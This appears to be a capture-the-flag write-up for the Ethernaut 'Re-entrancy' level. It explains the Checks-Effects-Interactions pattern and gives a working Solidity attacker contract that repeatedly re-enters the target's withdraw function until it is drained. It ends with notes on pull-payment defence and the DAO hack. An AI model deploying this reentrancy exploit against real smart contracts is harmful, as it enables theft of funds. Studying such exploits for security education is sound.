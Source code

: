 # [10. Re-entrancy](https://ethernaut.openzeppelin.com/level/0xe6BA07257a9321e755184FB2F995e0600E78c16D)

There is a pattern called [Checks - Effects - Interactions](https://fravoll.github.io/solidity-patterns/checks_effects_interactions.html) in Solidity. Basically:
    1. you **check** whether you can do something, such as checking balance
    2. you apply the **effects** of doing it on your contract, such as updating balance
    3. you do the actual **interactions** on-chain with other, such as transferring money

In this case, the function is to withdraw but the **interaction** comes before the **effect**. This means that when we receive money via withdraw, things are briefly in our control until the program goes back to the withdraw function to do the effect. When we have the control, we can call withdraw once more and the same thing will happen again and again.

When we create the instance in this game, we can see that:
    - `await getBalance(contract.address)` is 0.001 ether.
    - `await contract.balanceOf(player)` is 0.

```solidity
// SPDX-License-Identifier: GPL-3.0
pragma solidity ^0.8.0; 

// Interface of the target contract
interface IReentrance {
  function donate(address _to) external payable;
  function withdraw(uint _amount) external;
}

contract Attacker {
  address public owner;
  IReentrance targetContract;
  uint targetValue = 0.001 ether;

  constructor(address payable _targetAddr) payable {
    targetContract = IReentrance(_targetAddr);
    owner = msg.sender;
  }

  // withdraw money from this contract
  function withdraw() public {
    require(msg.sender == owner, "Only the owner can withdraw."); 
    (bool sent, ) = msg.sender.call{value: address(this).balance}("");
    require(sent, "Failed to withdraw.");
  }

  // begin attack by depositing and withdrawing
  function attack() public payable {
    require(msg.value >= targetValue);
    targetContract.donate{value:msg.value}(address(this));
    targetContract.withdraw(msg.value);
    targetValue = msg.value;
  }

  receive() external payable {
    uint targetBalance = address(targetContract).balance;
    if (targetBalance >= targetValue) {
      // withdraw at most your balance at a time
      targetContract.withdraw(targetValue);
    } else if (targetBalance > 0) {
      // withdraw the remaining balance in the contract
      targetContract.withdraw(targetBalance);
    }
  }
}
```

We will donate some money to create our initial balance at the target, which will allow the `balances[msg.sender] >= _amount` to be true. Now, we can repeadetly withdraw that amount by re-entering the withdraw function. Since balance update effect happens after the transfer interaction, we will go on and on until the balance is depleted.

_Note:_ As a defence, you could use a Pull-Payment approach: the user to be paid must come and withdraw their money themselves, rather than us paying to them.

_Note: This is how "The DAO" hack was executed, which resulted in the creation of Ethereum Classic._
